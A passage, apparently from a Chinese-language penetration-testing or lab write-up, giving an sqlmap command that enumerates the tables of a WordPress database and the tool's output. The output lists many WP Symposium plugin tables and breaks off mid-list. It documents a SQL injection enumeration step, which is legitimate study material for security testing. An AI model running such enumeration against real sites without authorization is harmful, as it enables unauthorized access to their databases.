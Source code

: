 跑wordpress的表

	sqlmap -r "C:\Users\10904\Desktop\2040.txt" -D "wordpress" --tables

回显

	Database: wordpress             
	[36 tables]                     
	+------------------------------+
	| wp_commentmeta               |
	| wp_comments                  |
	| wp_links                     |
	| wp_options                   |
	| wp_postmeta                  |
	| wp_posts                     |
	| wp_symposium_audit           |
	| wp_symposium_cats            |
	| wp_symposium_chat2           |
	| wp_symposium_chat2_typing    |
	| wp_symposium_chat2_users     |
	| wp_symposium_comments        |
	| wp_symposium_events          |
	| wp_symposium_events_bookings |
	| wp_symposium_extended        |
	| wp_symposium_following       |
	| wp_symposium_friends         |
	| wp_symposium_gallery         |
	| wp_symposium_gallery_items   |
	| wp_symposium_group_members   |
	| wp_symposium_groups          |
	| wp_symposium_likes           |
	| wp_symposium_lounge          |
	| wp_symposium_mail            |
	| wp_symposium_news            |
	| wp_symposium_styles          |
	| wp_symposium_subs            |
	| wp_symposium_topics          |
	| wp_symposium_topics_images   |
	| wp_symposium_topics_scores   |
	| wp_symposium_usermeta        |
	| wp_term_relationships        |
	| wp_term_taxonomy             |